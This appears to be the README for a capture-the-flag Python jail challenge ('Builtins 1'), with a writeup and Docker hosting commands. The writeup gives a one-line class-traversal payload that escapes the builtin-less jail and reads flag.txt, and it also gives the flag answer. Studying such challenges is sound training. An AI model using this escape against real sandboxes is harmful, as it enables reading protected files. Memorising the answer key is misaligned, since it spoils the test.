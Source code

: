 # Builtins 1
Level - Medium

Description:
```markdown
The Docker container running the jail uses `python:3.12.0a6-bullseye`.

*Per usual, the flag is stored in `./flag.txt`*

nc byuctf.xyz 40002

[b1.py]
```

## Writeup
The following payload should work - `().__class__.__bases__[0].__subclasses__()[124].get_data('.','flag.txt')`. This relies upon Python class traversal, a well-documented technique in bypassing jails.

**Flag** - `byuctf{no_builtins?_no_problem}`

## Hosting
This challenge should be a Docker container that runs the Python script `b1.py` every time someone connects on port 40002. All the proper files are included in here. The command to build the docker container is (when located inside of this directory):

```bash
sudo docker build -t b1 .
sudo docker network create -d bridge b1
```

The command to start the challenge is:

```bash
sudo docker run -p 40002:40000 --detach --name b1 --network b1 b1:latest
```

The command to stop the challenge (since CTRL+C won't work) is:

```bash
sudo docker stop b1
```